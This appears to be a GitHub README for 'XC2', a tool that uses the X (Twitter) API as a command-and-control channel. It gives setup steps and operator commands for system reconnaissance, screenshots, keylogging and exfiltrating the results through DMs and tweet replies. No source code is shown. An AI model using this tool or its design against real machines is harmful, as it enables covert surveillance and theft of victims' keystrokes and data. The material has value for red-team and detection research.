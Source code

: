 # XC2
Simple demonstration of using X (twitter) new API as a C2

# Price Limitation

With this new API, you need to have a basic plan to be able to use this project 😭
![image](https://github.com/user-attachments/assets/fc70f59b-c8fb-43d5-a43b-796be250fe2f)

# Requirements
- Python 3.8+
- Libraries: tweepy, cryptography, Pillow, pynput
- Twitter API v2 credentials (Bearer Token, API Key, etc.)

## Setup
- Install Dependencies: `pip install tweepy cryptography Pillow pynput`
- Configure Credentials:
  - Replace placeholders in server.py and client.py with your Twitter API credentials.
  - Share the encryption key (key) between server and client.
# Usage
- Run Server:
  - python server.py
- Run Client:
  - python client.py

## Shell-Like Interaction examples
- server> `sysinfo`
  - Logs show responses like: Response from <client_id>: {'o': 'Windows', 'h': 'HOST1', 'i': '192.168.1.10'}
  - Target a specific client (replace <client_id> with actual ID from logs):
- server> `target:<client_id> screenshot`
  - Logs show chunked screenshot data.
- Start keylogger on all clients:
  - server> `keylogger_start`
  - Logs show keystrokes every 10 keys (e.g., Response from <client_id>: "hello[SPACE]world").
- View Responses:
  - Check server logs for real-time exfiltration from DMs or tweet replies.
- Additional Commands
  - whoami: Get client username.
  - get_memory key=last_dir: Retrieve in-memory data.
